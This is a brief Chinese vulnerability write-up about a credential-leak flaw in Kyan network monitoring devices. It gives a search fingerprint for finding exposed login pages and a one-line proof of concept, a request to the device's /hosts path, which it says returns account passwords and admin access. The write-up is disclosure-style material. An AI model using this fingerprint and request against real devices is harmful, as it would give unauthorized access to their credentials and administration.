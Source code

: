 # Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

<a-checkbox checked>Kyan</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="platform - Login"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ky-1.png)



POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ky-2.png)



成功获得账号密码